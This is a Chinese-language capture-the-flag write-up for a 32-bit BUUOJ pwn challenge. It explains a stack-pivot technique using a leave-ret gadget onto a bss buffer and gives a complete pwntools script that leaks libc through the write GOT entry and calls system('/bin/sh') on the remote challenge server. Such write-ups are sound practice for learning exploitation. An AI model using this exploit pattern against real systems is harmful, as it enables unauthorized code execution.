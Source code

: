 # [Black Watch 入群题]PWN

[题目地址](https://buuoj.cn/challenges#[Black%20Watch%20%E5%85%A5%E7%BE%A4%E9%A2%98]PWN)

继续巩固基础。

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这个配置见了无数遍了。main内部调用了漏洞函数。

```c
void vul_function(void)

{
  size_t sVar1;
  undefined input [24];
  
  sVar1 = strlen(m1);
  write(1,m1,sVar1);
  read(0,s,0x200);
  sVar1 = strlen(m2);
  write(1,m2,sVar1);
  read(0,input,32);
  return;
}
```

m1和m2是两句话，不重要，关键在于接收输入的s在bss段。根据经验，一般用bss段接收输入的地方80%有问题。继续往下看，还有一个接收输入的，有明显栈溢出。不过input距离ebp有0x18，32-0x18=8，32位系统只能填个ebp和返回地址。我瞬间就想到了返回s的地址，思路倒是对了，基础没跟上。当时脑抽了一下直接往s里放shellcode，把nx当空气。这道题应该用之前见过一次的栈迁移。栈迁移最常用的就是leave-ret这段gadget。

```
leave
//mov esp ebp  将ebp指向的地址给esp
//pop ebp  将esp指向的地址存放的值赋值给ebp
ret
//pop eip  将esp指向的地址存放的值赋值给eip
```

这题该怎么做呢？很简单，把ebp覆盖为s的地址-4，返回地址覆盖为leave-ret gadget。注意程序本身就有一个leave-ret，因此我们输入payload会执行两次leave-ret。第一次把esp指向ebp，pop ebp将s地址-4弹进ebp，同时esp+4，指向gadget的地址（每次pop esp都会+4，push则是会-4，因为栈向低地址增长）。第二次继续把esp指向的东西设置为ebp指向的东西，但这次ebp里已经是s地址-4了，于是我们成功把esp改为s地址-4。还没停，继续pop ebp，ebp倒不会有改变，而esp因为pop又上升4，指向s。最后pop eip执行gadget。曾经不理解的地方是为什么一定要两次才能迁移栈，今天意识到第一个leave的mov esp ebp执行时ebp还没有改变，保持原来的值，所以esp的值还在当前栈上，直到下一次pop ebp真正改变ebp第二个leave才能把目标地址放进esp中。

这回nx没用了，nx让我们不能直接跳转到执行栈外的一块地方执行shellcode，但是我们直接把当前程序的执行栈搬过去了，nx它能拿我们怎么样呢？剩下的步骤就是普通泄露地址+ret2libc了。

```python
from pwn import *
context.log_level='debug'
p=remote("node4.buuoj.cn",29271)
leave_ret=0x08048408
c=0x0804a300
write_plt=0x08048380
write_got=0x0804a01c
main=0x08048513
payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
p.sendafter("name?",payload)
payload1=b'a'*0x18+p32(c-4)+p32(leave_ret)
p.sendafter("say?",payload1)
write_addr=u32(p.recv(4))
libc_base=write_addr-	869312
system_addr=libc_base+	239936
binsh=libc_base+	0x0015902b 
payload = p32(system_addr) + p32(main) + p32(binsh)
p.sendafter('name?',payload)
p.sendafter("say?",payload1)
p.interactive()
```

发送payload1时不能用sendline，否则无法getshell。在这里卡了好久。补充带图解释的[wp](https://blog.csdn.net/mcmuyanga/article/details/109260008)。